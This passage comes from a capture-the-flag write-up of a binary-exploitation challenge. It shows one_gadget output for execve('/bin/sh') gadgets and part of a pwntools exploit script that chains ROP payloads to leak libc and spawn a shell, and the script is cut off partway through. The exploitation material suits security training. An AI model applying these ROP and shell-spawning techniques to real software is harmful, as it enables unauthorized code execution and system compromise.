 ```sh
$ one_gadget libc6_2.27-3ubuntu1.4_amd64.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Seems like there are 3 gadgets to choose from. I went with the middle gadget. Running my exploit script for the last time, I managed to drop a shell into the system (no pun intended). Interestingly, the flag suggested `sigrop` to be the intended method, so my initial thought process wasn't incorrect.

Flag: `CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}`

### Exploit Script

```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF('./system_drop')
rop = ROP(elf)

if args.REMOTE:
    io = remote('127.0.0.1', 8080)
    libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')
else:
    io = elf.process()
    libc = io.libc

elf.sym.payload = 0x601100
eip_offset = 40

gadget1 = 0x004005ca
gadget2 = 0x004005b0
init_pointer = 0x00400e38
mov_eax_1 = 0x00400569

# Prepare 2nd payload
payload2 = flat(rop.rdi[0],     0x1,
                rop.rsi[0],     elf.got.alarm, 0x0,
                rop.syscall[0],
                rop.rbp[0],     elf.sym.payload + 0x200,
                elf.sym.main)

# Prepare 1st payload
payload = p64(gadget1)
payload += p64(0x00)                                # pop rbx
payload += p64(0x01)                                # pop rbp
payload += p64(init_pointer)                        # pop r12
payload += p64(0x00)                                # pop r13 (edi)
payload += p64(elf.sym.payload)                     # pop r14 (rsi)
payload += p64(len(payload2))                       # pop r15 (rdx)
payload += p64(gadget2)
payload += p64(0x00)                                # add rsp,0x8 padding
```